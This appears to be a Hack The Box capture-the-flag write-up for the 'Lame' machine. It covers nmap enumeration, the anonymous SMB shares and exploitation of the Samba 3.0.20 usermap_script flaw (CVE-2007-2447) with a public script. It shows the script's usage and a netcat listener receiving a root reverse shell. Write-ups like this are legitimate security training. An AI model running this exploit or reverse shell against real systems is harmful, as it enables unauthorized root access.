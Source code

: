 ```
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

Digging deeper into the Samba SMB shares via nmap's scripting engine, we glean the following:
```
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

```

As anonymous logins are permitted, we investigate the shares, especially the `tmp/` directory, though ultimately nothing of value is located. 

## Exploitation

### Known vulnerability - CVE-2007-2447
While none of the contents of the SMB shares give us a path onto the box, searching ExploitDB for the service version (`Samba 3.0.20`) returns several results, though none are directly useful. Instead, further research of Samba 3.0.20 yields [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447). This script [exploits a weakness in Samba 3.0.0 - 3.0.25rc3](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/) that allows for unathenticated RCE via the use of usernames that contain shell meta characters.

```
$ python2 usermap_script.py
[*] CVE-2007-2447 - Samba usermap script
[-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

The script is very easy to use, and immediately provides us with `root` access to the box.

```
$ nc -lvnp 8008
listening on [any] 8008 ...
connect to [<kali-ip>] from (UNKNOWN) [<target-ip>] 41884
whoami
root
```
